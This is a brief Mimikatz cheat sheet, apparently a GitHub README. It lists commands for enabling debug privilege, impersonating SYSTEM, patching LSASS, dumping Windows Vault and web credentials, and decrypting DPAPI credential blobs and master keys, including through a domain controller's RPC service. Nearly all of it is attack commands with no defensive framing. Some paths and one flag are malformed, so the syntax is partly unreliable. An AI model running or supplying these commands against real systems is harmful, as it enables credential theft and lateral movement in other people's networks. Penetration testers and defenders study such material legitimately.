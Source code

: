 # MIMIKATZ

## Author: https://github.com/gentilkiwi/mimikatz

### Miscellaneous

1) Shows privileges on machine ( Ensure output is "20 OK")

       privilege::debug

2) Impersonate SYSTEM

       token::elevate

De-escalate from SYSTEM

    token::revert

3) Altering LSASS Logic (Dump network share credentials, RDP passwords, etc. Not recommended.)

Prevent LSASS from checking the credential type

    sekurlsa::patch 

### Credentials Dumping

1) Windows Vault stored credentials dumping (passwords and authentication tokens)

       vault::cred

2) Web Credentials Dumping

       vault::list

3) Extract Credentials with DPAPI

        dpapi::cred /in"%appdata%\Microsoft\Credentials\85HJK6B5J456KJ46KJ546435H3JK"

#### If dwFlags includes CRYPTPROTECT_SYSTEM, the blob is protected by the system and cannot be decrypted by a standard user. The guidMasterKey indicates the necessary master key for decryption.

Extract the master key

        dpapi::masterkey /in:"%appdata%\Microsoft\Protect\S-1-5-21-341242153252-423423531651-2536513646524-1104\cc354534jkb534jb5-09f8-dd24-fe8fr798fed"

BONUS: RPC for Domain Controllers

#### Domain controllers can decrypt master keys for authorized users using the RPC service.

        dpapi::masterkey /in:"%appdata%\Microsoft\Protect\S-1-5-21-341242153252-423423531651-2536513646524-1104\cc354534jkb534jb5-09f8-dd24-fe8fr798fed" /rpc

Final decryption

        dpapi::cred /in"%appdata%\Microsoft\Credentials\85HJK6B5J456KJ46KJ546435H3JK"



